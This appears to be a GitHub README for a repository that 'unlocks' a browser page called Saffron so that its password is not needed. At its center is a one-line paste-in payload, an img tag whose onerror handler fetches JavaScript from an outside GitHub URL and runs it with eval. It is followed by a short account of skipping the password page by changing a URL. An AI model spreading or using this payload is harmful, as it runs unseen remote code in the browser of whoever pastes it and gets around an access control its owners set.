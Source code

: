 # Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
# THIS REPOSITORY UNLOCKS SAFFRON SO THAT YOU DO NOT NEED THE PASSWORD!
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, MartialMeteor82, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

# How It Works

### Exploits the fact that there is no real encryption or protection of the index.html (Saffron's search dashboard) - main.html (password page) acts as just a doorway to index.html but <ins>is easily skipped</ins> by changing URL in main.js from main.html to index.html 

### Results in easy cracking and poor encryption
